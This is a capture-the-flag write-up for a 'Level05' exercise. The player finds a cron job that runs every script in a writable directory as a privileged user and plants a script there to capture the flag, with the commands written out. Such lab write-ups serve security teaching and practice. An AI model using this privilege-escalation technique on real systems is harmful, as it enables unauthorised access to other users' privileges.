 # Level05

## Context
* No file in our home

## Resolution
 * we launch the following command: ```find / -name level05 2>/dev/null``` that ouputs :
 ```/var/mail/level05 /rofs/var/mail/level05```
 * Those two files output the same content: ```*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05```. Looks like a cron task..
 * Script ```/usr/sbin/openarenaserver``` permissions are: ```-rwxr-x---+ 1 flag05 flag05```. Its content is: 
```
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
 * ```/opt/openarenaserver/``` folder is empty and has the following permissions : ```drwxrwxr-x+ 2 root root``` 
 * ``getfacl``` command shows:
```
user:level05:rwx
user:flag05:rwx
```
 * As we have write permissions in this folder, we decide to add ```getflag_script``` into it by lauching the following command : ```echo "getflag > /var/crash/level05_output.txt" > /opt/openarenaserver/getflag_script && chmod +x /opt/openarenaserver/getflag_script```
 * We then laucnh ```crontab -e``` and copy ```/var/mail/level05``` into our crontab
 * After less than 2 minutes, we get the flag in the ```/var/crash/level05_output.txt``` file

